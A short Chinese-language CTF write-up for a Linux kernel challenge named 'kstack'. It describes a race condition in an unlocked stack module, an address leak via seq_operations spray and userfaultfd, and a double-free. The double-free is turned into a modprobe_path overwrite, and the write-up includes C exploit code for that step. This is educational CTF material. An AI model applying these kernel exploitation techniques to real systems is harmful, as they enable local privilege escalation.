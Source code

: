 # kstack
## IDA

实现了一个简单的栈，PUSH可以压入一个元素，POP可以弹出一个元素，元素之间通过链表相互连接。问题在于所有操作都没有加锁，因此存在竞争。

## 泄漏

读后写导致信息泄漏，通过`spray seq_operation → PUSH → pagefaultfd → POP`调用链来泄漏地址。

## Double-free

两个POP操作之间的竞争会导致double-free，之后通过setxattr+userfaultfd的方式，将object的freelist设为modprobe_path-8的位置，然后通过PUSH来修改modprobe_path，之后触发错误文件类型获取flag.

```c
/*=================================MODPROBE=====================================*/
    ioctl(fd, PUSH, "aaaa");
    perror("push0");
    RUN_JOB(ioctl, fd, POP, handle_page+0x1000); //hangup
    ioctl(fd, POP, rbuf);//free
    perror("free");
    release_fault_page();//double free

    //struct tsk fake_node = {.freelist=modprobe_path-8, .test=modprobe_path-8, .next=modprobe_path-8};
    size_t * ptr = handle_page+0x2000-8;
    *ptr = modprobe_path - 8;
    RUN_JOB(setxattr_job, ptr, 0x20);

    int ret = ioctl(fd1, PUSH, "bbbb");
    printf("ret=%d\n", ret);
    ioctl(fd1, PUSH, "/tmp/1\x00");
```
